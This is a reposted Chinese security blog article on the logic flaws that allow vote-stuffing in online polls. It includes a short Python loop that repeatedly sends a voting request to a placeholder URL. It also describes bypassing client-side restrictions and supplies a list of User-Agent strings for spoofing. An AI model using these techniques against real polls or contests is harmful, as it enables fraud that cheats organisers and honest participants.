 # 转载
：  漏洞背后实际利用思路

# 漏洞背后实际利用思路

## 前言：

说起刷票，可能大家都经常听到这个词，但是网上这种相关的漏洞文章却少之又少，本文将总结个人案例以及生活中碰到的情况汇总成本篇文章，刷票的行为通常是利用逻辑漏洞来实现的，比如通过伪造投票请求、绕过验证等手段来增加投票数量，从而拿到名次奖励，文章仅发表思路，这些思路不仅限于刷票。

## 思路总结

### 一、无任何验证措施

程序开发问题，单一投票功能，用户可点击直接进行投票，且无任何限制，没有上限<br/> 利用pyton写个简单的exp：

```
import requests
url='http://www.domain.com/comment.php?aid=123&amp;who=1&amp;t=1385710179528'
while 1:
    requests.get(url)
```

### 二、客户端验证

一切来自客户端的数据都是不可信的，因为这些数据全部都是在前端<br/> 1) 弹框提示，仅仅是弹框，并没有阻断后面代码执行，刷新页面继续投票，票数照常增加

<br/> 2) 排除第一种情况，换个浏览器即可重新投票，或者清理下缓存即可重新投票

<br/> 3) 有时候你可能也会碰到投票后按钮变为灰色，只需删除前端控制代码即可，或者直接往服务端进行发包，因为是客户端限制

### 三、User-Agent验证

有的会用user-agent进行验证，毕竟打开页面，他也许就判断你的浏览器，觉得你只经常用这个浏览器，修改user-agent即可绕过

```
Mozilla/5.0 (iPhone; CPU iPhone OS 10_0 like Mac OS X) AppleWebKit/602.1.38 (KHTML, like Gecko) Version/10.0 Mobile/14A5297c Safari/602.1
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.67 Safari/537.36 Edg/87.0.664.52
Mozilla/5.0 (Linux; Android 6.0.1; Nexus 5X Build/MMB29P) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Mobile Safari/537.36 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
Mozilla/5.0 (Linux; Android 10; V1914A Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/77.0.3865.120 MQQBrowser/6.2 TBS/045410 Mobile Safari/537.36
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36
Mozilla/5.0 (compatible; NetcraftSurveyAgent/1.0; +info@netcraft.com)
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.75 Safari/537.36
Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36
Mozilla/5.0 (compatible; bingbot/2.0; +http://www.bing.com/bingbot.htm)
Mozilla/5.0 (compatible; SeznamBot/3.2; +http://napoveda.seznam.cz/en/seznambot-intro/)
Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36
Mozilla/5.0 (Windows NT 6.2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/31.0.1650.63 Safari/537.36 QIHU 360SE; 360Spider
Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.75 Safari/537.36 Google Favicon
```